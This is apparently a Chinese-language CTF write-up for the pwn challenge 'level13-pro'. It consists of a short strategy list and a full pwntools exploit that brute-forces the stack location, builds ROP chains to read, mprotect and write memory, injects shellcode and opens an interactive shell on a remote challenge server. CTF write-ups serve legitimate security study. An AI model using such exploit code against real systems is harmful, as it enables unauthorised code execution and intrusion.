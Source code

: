# level13-pro
### 思路：
1. 这道题和level11很像，但区别是，buffer大小只有0x24,有效控制的只有0x14,即只有5个整数
2. 解决方案为，利用5个整数，进行一次读操作将后面后续的rop链读到溢出区域的后面
3. 第二步若要进行读操作，必须知道当前esp的地址，获得esp地址的方法: 
* 在前0x10个输入中作标记
* 利用5个整数在栈上写操作，获得写出的值，并查看标记是否存在以及存在的位置
* 循环进行， 直到得到mark的位置，根据这个位置，容易推算出下一步我们需要读的位置
* 注：写操作完成后，需要跳到bug函数(0x804811e)

```python
from pwn import *
context.log_level = "debug"
pwn_file = "./level13-pro"

def debug():
    log.debug("process pid:%d"%r.pid)
    pause()

inject_pos = 0x8048500
eax_val = 0x7d
ebx_val = 0x8048000
ecx_val = 0x1000
edx_val = 0x7

ris_call   = 0x80480fe
read_addr  = 0x80480E1
write_addr = 0x80480F9
bug_func = 0x804811e
next_pos   = 0x804817C

mark = "I'm your father."
print len(mark)
def detect_stack(r,detect_addr):
    rop = [mark, p32(write_addr),p32(bug_func),p32(1),p32(detect_addr),p32(0x800)]
    payload = ''.join(rop)
    
    r.sendafter("ROP like a PRO:",payload)
    a = r.recvuntil("Good Luck!\n")
    print a
    try:
        words=r.recv()
        if words.find(mark)>=0:
            print "===================="
            return detect_addr + words.find(mark)
        else:
            r.close()
            return -1
    except:
        r.close()
        return -1

stack_base = 0xff800000
for i in range(0x1000):
    detect_addr = stack_base + i*0x800
    r= remote("pwn.sixstars.team",22013)#r = process("./level13-pro")
    stack_addr = detect_stack(r, detect_addr)
    if stack_addr>=0:
        print "======the stack in use is======"
        print hex(stack_addr)
        break

sh = asm(shellcraft.sh())
rop2 = ['a'*0x14,p32(write_addr),p32(next_pos),p32(1),p32(ebx_val),p32(eax_val),
        'a'*0x14,p32(ris_call), p32(next_pos),p32(ebx_val),p32(ecx_val),p32(edx_val),
        'a'*0x14,p32(read_addr),p32(inject_pos),p32(0),p32(inject_pos),p32(0x100)]
payload2 = ''.join(rop2)

rop1 = ['a'*0x10, p32(read_addr),p32(next_pos),p32(0),p32(stack_addr+0x24+8) ,p32(len(payload2)) ]
payload1 = ''.join(rop1)

r.send(payload1)
r.send(payload2)

r.recv(0x7d)

r.sendline(sh)
r.interactive()
```